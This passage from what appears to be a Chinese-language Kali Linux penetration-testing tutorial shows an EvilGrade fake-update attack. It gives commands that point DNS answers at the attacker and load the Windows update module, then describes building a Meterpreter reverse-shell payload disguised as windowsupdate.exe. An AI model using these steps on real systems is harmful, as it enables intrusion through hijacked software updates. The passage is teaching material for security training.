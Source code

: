 安全提示：

这是 Windows 系统上的一个重要攻击向量。与 Linux 不同，Linux 中所有软件包都可以从中央存储库下载并通过 GPG 密钥进行验证，而 Windows 应用程序中的每个应用程序都依赖于其自己的更新程序。这使得这种攻击方式可以用于许多常见应用程序，这些应用程序通常不会被视为攻击向量。这也是为什么在使用本书中所示的 Kali 时，应该从存储库下载应用程序，避免从其他网站下载和安装单独的应用程序。

我们需要为 DNS 服务设置 IP 地址。输入以下命令：

```
show options # Shows EvilGrade's default settings.
set DNSAnswerIp 172.16.24.139 # Set the DNS server's address.     
```

![](img/6d5e47f3-c123-4e39-8924-9099fd387cf9.png)

在这次攻击中，我们将使用 Windows 更新服务（wpad），因此要加载 Windows 更新模块，请输入以下内容：

```
evilgrade>configure winupdate 
```

接下来，我们需要我们的有效载荷。要构建有效载荷，我们将使用 MSFvenom。打开一个新的终端窗口，然后从命令行中输入以下代码。`-p`标志是要使用的有效载荷。我们正在使用`windows/meterpreter/reverse_tcp`有效载荷。由于这是一个反向 shell，您必须设置有效载荷在攻击机器上调用的本地主机和本地端口。我们的 Kali 机器在`172.16.42.139`。

我们将端口设置为`445`，这是一个标准的 Windows 端口，并使用`-o`标志将其保存到`/tmp/windowsupdate.exe`：
